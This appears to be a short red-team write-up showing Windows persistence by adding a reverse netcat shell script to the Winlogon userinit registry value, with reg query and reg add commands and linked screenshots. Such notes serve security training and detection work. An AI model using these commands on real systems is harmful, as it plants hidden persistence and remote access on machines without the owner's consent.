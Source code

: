 Let's run through the techqnique abusing the userinit subkey.
Let's see what's currently held at the userinit:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![image](https://user-images.githubusercontent.com/86452055/166085572-2d47e22c-b49d-4fc7-a1d3-d3c0e2cc33c8.png)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![image](https://user-images.githubusercontent.com/86452055/166085587-d4459f49-bc2a-460f-9902-d31eb2fb35e0.png)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![image](https://user-images.githubusercontent.com/86452055/166085594-90819aec-b7d0-4c95-99e3-aaa64615fbd6.png)

